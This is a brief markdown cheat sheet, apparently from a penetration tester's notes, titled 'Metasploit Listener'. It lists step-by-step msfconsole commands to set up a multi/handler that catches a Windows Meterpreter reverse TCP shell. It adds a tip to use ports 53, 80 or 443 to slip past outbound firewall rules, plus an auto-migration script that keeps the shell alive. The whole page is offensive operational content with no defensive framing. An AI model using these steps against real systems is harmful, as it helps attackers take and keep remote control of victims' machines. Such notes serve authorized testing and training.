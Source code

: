 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["metasploit", "listener", "revshell", "msfconsole"]
---
```


### Start a Metasploit Listener

```console
msfconsole -q
```

```console
use exploit/multi/handler
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
run
```

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

```console
# Create a automigrate.rc script
run post/windows/manage/migrate
```

<br>

```console
msfconsole -q
```

```console
use exploit/multi/handler
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
set AutoRunScript multi_console_command -r automigrate.rc
```

```console
run
```

